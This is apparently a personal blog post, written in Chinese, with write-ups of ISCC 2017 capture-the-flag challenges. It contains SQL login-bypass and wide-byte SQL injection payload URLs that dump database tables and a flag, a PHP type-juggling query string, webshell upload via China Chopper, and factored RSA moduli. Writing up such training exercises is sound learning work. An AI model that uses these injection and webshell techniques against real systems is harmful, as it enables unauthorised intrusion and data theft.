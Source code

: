 ```yaml
---
layout: post
title: "第十三周总结"
date:  2017-05-21 14:58:44
description: "周总结"
tag: 总结
---
```


## web100_WelcomeToMySQL   
终于知道为什么解析不了了啊哭
这个得用php5传，不然解析不了，传完之后连上菜刀，根据里面一个base.php里面的信息填数据库配置，也就是说flag在数据库里

## web150_自相矛盾     
好吧找到了原题...
构造：    

```
http://139.129.108.53:8083/web-09/index.php?iscc={%22bar1%22:%222017a%22,%22bar2%22:[[1],1,2,3,0],%22a2%22:[%22nudt%22,1,2,3,0]}&cat[0]=%00isccctf2017&cat[1][]=1111&d=1
```

## web150_一起来日站啊     
扫描得到/robots.txt，打开后得到

```
robots.txt 
User-agent: * 
Disallow: /21232f297a57a5a743894a0e4a801fc3/
Disallow: /api
```
访问

```
http://139.129.108.53:5090/web-04/21232f297a57a5a743894a0e4a801fc3/admin.php
```
到达后台，使用万能密码且Post方式提交，flag出来了但藏得很隐蔽but肉眼可见==


```
username=admin&password=1' or '1' = '1
```

## Basic100_说我作弊需要证据   
Alice的n：  

```
0x53a121a11e36d7a84dde3f5d73cf = 1696206139052948924304948333474767 = 38456719616722997 · 44106885765559411
```

Bob的n：
```
0x99122e61dc7bede74711185598c7 = 3104649130901425335933838103517383 =  49662237675630289 · 62515288803124247
```


小明的flag      

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 1 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 2 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 3 --+    
Unknown column '3' in 'order clause'
```

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),null  --+

http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),database()  --+

```

## web_robots
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --+     
```
article,flag
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,hex(group_concat(id,0x7e,thisisflag)) FROM .flag --+      
```
317E666C61673A7B34343162376661313631373330376265393633323236336134343937383731657D  
HEX-ASCII